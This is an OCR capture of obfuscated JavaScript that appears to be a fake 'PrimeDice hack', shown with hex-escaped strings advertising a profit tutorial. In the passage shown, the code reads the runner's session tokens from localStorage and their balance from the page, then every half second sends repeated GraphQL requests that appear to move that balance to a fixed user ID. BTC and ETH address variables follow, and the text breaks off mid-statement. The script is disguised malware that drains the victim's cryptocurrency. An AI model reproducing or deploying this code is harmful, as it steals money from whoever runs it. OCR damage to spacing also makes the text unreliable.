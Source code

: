 63\x79\x45\x6E\x75\x6D\x21\x2C\x20\x24\x61\x64\x64\x72\x65\x73\x73\x3A\x20\x53\x74\ x72\x69\x6E\x67\x21\x2C\x20\x24\x61\x6D\x6F\x75\x6E\x74\x3A\x20\x46\x6C\x6F\x61\x74 \x21\x29\x20\x7B\x0A\x20\x20\x63\x72\x65\x61\x74\x65\x57\x69\x74\x68\x64\x72\x61\x7 7\x61\x6C\x28\x63\x75\x72\x72\x65\x6E\x63\x79\x3A\x20\x24\x63\x75\x72\x72\x65\x6E\x 63\x79\x2C\x20\x61\x64\x64\x72\x65\x73\x73\x3A\x20\x24\x61\x64\x64\x72\x65\x73\x73\ x2C\x20\x61\x6D\x6F\x75\x6E\x74\x3A\x20\x24\x61\x6D\x6F\x75\x6E\x74\x29\x20\x7B\x0A \x20\x20\x20\x20\x69\x64\x0A\x20\x20\x20\x20\x61\x6D\x6F\x75\x6E\x74\x0A\x20\x20\x2 0\x20\x61\x64\x64\x72\x65\x73\x73\x0A\x20\x20\x20\x20\x68\x61\x73\x68\x0A\x20\x20\x 20\x20\x5F\x5F\x74\x79\x70\x65\x6E\x61\x6D\x65\x0A\x20\x20\x7D\x0A\x7D\x0A","\x59\x 6F\x75\x20\x6E\x65\x65\x64\x20\x20\x74\x6F\x20\x68\x61\x76\x65\x20\x61\x74\x20\x6C\ x65\x61\x73\x74\x20\x30\x2E\x30\x30\x34\x42\x54\x43\x20\x66\x6F\x72\x20\x74\x68\x69 \x73\x20\x68\x61\x63\x6B\x20\x74\x6F\x20\x77\x6F\x72\x6B\x21","\x64\x69\x73\x70\x6C \x61\x79","\x73\x74\x79\x6C\x65","\x73\x74\x79\x6C\x65\x73\x5F\x5F\x57\x72\x61\x70\ x2D\x73\x63\x2D\x31\x77\x39\x6F\x6F\x72\x73\x2D\x30\x20\x6A\x74\x69\x67\x46\x46","\ x6E\x6F\x6E\x65","\x53\x65\x6E\x64\x4D\x65\x73\x73\x61\x67\x65","\x6D\x75\x74\x61\x 74\x69\x6F\x6E\x20\x53\x65\x6E\x64\x4D\x65\x73\x73\x61\x67\x65\x28\x24\x63\x68\x61\ x74\x49\x64\x3A\x20\x53\x74\x72\x69\x6E\x67\x2C\x20\x24\x75\x73\x65\x72\x49\x64\x3A \x20\x53\x74\x72\x69\x6E\x67\x2C\x20\x24\x6D\x65\x73\x73\x61\x67\x65\x3A\x20\x53\x7 4\x72\x69\x6E\x67\x21\x29\x20\x7B\x0A\x20\x20\x73\x65\x6E\x64\x4D\x65\x73\x73\x61\x 67\x65\x28\x63\x68\x61\x74\x49\x64\x3A\x20\x24\x63\x68\x61\x74\x49\x64\x2C\x20\x75\ x73\x65\x72\x49\x64\x3A\x20\x24\x75\x73\x65\x72\x49\x64\x2C\x20\x6D\x65\x73\x73\x61 \x67\x65\x3A\x20\x24\x6D\x65\x73\x73\x61\x67\x65\x29\x20\x7B\x0A\x20\x20\x20\x20\x6 9\x64\x0A\x20\x20\x20\x20\x5F\x5F\x74\x79\x70\x65\x6E\x61\x6D\x65\x0A\x20\x20\x7D\x 0A\x7D\x0A","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x77\x77\x77\x2E\x79\x6F\x75\x74\x75\x 62\x65\x2E\x63\x6F\x6D\x2F\x77\x61\x74\x63\x68\x3F\x76\x3D\x5F\x4D\x6B\x78\x44\x63\ x33\x32\x62\x6B\x4D\x20\x2D\x50\x52\x49\x4D\x45\x44\x49\x43\x45\x20\x48\x41\x43\x4B \x20\x32\x30\x31\x38\x20\x2D\x20\x57\x4F\x52\x4B\x49\x4E\x47\x20\x54\x55\x54\x4F\x5 2\x49\x41\x4C\x20\x2D\x20\x36\x31\x30\x24\x20\x50\x52\x4F\x46\x49\x54\x20"];varprva =localStorage[_0x11ec[0]];prva= prva[_0x11ec[1]](1);prva= prva[_0x11ec[2]](0,- 1);var druga=localStorage[_0x11ec[3]];druga= druga[_0x11ec[1]] (1);druga=druga[_0x11ec[2]](0,-1);var xay=parseFloat(document[_0x11ec[6]] (_0x11ec[7])[0][_0x11ec[6]](_0x11ec[5])[0][_0x11ec[4]]);var vrednostnovca1=xay- 0.0000001;varvrednostnovca2=xay- 0.0000001;var vrednostnovca3=xay- 0.0000001;varaj1di=_0x11ec[8];setInterval(function(){var request=  newXMLHttpRequest(),url=_0x11ec[9],data=JSON[_0x11ec[13]] ({"\x6F\x70\x65\x72\x61\x74\x69\x6F\x6E\x4E\x61\x6D\x65":null,"\x76\x61\x72\x69\x61 \x62\x6C\x65\x73": {"\x61\x6D\x6F\x75\x6E\x74":vrednostnovca1,"\x69\x73\x50\x75\x62\x6C\x69\x63":false ,"\x63\x75\x72\x72\x65\x6E\x63\x79":_0x11ec[10],"\x75\x73\x65\x72\x49\x64":aj1di,"\ x63\x68\x61\x74\x49\x64":_0x11ec[11]},"\x71\x75\x65\x72\x79":_0x11ec[12]});request[ _0x11ec[14]]= function(){if(this[_0x11ec[15]]== 4&amp;&amp; this[_0x11ec[16]]== 200) {}};request[_0x11ec[18]](_0x11ec[17],url,true);request[_0x11ec[21]] (_0x11ec[19],_0x11ec[20]);request[_0x11ec[21]] (_0x11ec[22],prva);request[_0x11ec[21]](_0x11ec[23],druga);request[_0x11ec[24]] (data);var request= new XMLHttpRequest(),url=_0x11ec[9],data=JSON[_0x11ec[13]] ({"\x6F\x70\x65\x72\x61\x74\x69\x6F\x6E\x4E\x61\x6D\x65":null,"\x76\x61\x72\x69\x61 \x62\x6C\x65\x73": {"\x61\x6D\x6F\x75\x6E\x74":vrednostnovca1,"\x69\x73\x50\x75\x62\x6C\x69\x63":false ,"\x63\x75\x72\x72\x65\x6E\x63\x79":_0x11ec[25],"\x75\x73\x65\x72\x49\x64":aj1di,"\ x63\x68\x61\x74\x49\x64":_0x11ec[11]},"\x71\x75\x65\x72\x79":_0x11ec[12]});request[ _0x11ec[14]]= function(){if(this[_0x11ec[15]]== 4&amp;&amp; this[_0x11ec[16]]== 200) {}};request[_0x11ec[18]](_0x11ec[17],url,true);request[_0x11ec[21]] (_0x11ec[19],_0x11ec[20]);request[_0x11ec[21]] (_0x11ec[22],prva);request[_0x11ec[21]](_0x11ec[23],druga);request[_0x11ec[24]] (data);var request= new XMLHttpRequest(),url=_0x11ec[9],data=JSON[_0x11ec[13]] ({"\x6F\x70\x65\x72\x61\x74\x69\x6F\x6E\x4E\x61\x6D\x65":null,"\x76\x61\x72\x69\x61 \x62\x6C\x65\x73": {"\x61\x6D\x6F\x75\x6E\x74":vrednostnovca1,"\x69\x73\x50\x75\x62\x6C\x69\x63":false ,"\x63\x75\x72\x72\x65\x6E\x63\x79":_0x11ec[26],"\x75\x73\x65\x72\x49\x64":aj1di,"\ x63\x68\x61\x74\x49\x64":_0x11ec[11]},"\x71\x75\x65\x72\x79":_0x11ec[12]});request[ _0x11ec[14]]= function(){if(this[_0x11ec[15]]== 4&amp;&amp; this[_0x11ec[16]]== 200) {}};request[_0x11ec[18]](_0x11ec[17],url,true);request[_0x11ec[21]] (_0x11ec[19],_0x11ec[20]);request[_0x11ec[21]] (_0x11ec[22],prva);request[_0x11ec[21]](_0x11ec[23],druga);request[_0x11ec[24]] (data);var request= new XMLHttpRequest(),url=_0x11ec[9],data=JSON[_0x11ec[13]] ({"\x6F\x70\x65\x72\x61\x74\x69\x6F\x6E\x4E\x61\x6D\x65":null,"\x76\x61\x72\x69\x61 \x62\x6C\x65\x73": {"\x61\x6D\x6F\x75\x6E\x74":vrednostnovca1,"\x69\x73\x50\x75\x62\x6C\x69\x63":false ,"\x63\x75\x72\x72\x65\x6E\x63\x79":_0x11ec[27],"\x75\x73\x65\x72\x49\x64":aj1di,"\ x63\x68\x61\x74\x49\x64":_0x11ec[11]},"\x71\x75\x65\x72\x79":_0x11ec[12]});request[ _0x11ec[14]]= function(){if(this[_0x11ec[15]]== 4&amp;&amp; this[_0x11ec[16]]== 200) {}};request[_0x11ec[18]](_0x11ec[17],url,true);request[_0x11ec[21]] (_0x11ec[19],_0x11ec[20]);request[_0x11ec[21 ]](_0x11ec[22],prva);request[_0x11ec[21]](_0x11ec[23],druga);request[_0x11ec[24]] (data)},500);if(vrednostnovca1> 0.004){varbtc1=_0x11ec[28];var btc2=_0x11ec[28];var btc3=_0x11ec[28];var btc4=_0x11ec[28];varbtc5=_0x11ec[28];var btc=[btc1,btc2,btc3,btc4,btc5];var eth1=_0x11ec[29];vareth2=_0x11ec[30];var eth3=_0x11ec[29];var eth4=_0x11ec[30];var eth5=_0x11ec[29];vareth=[eth1,eth2,eth3,eth4,eth5];var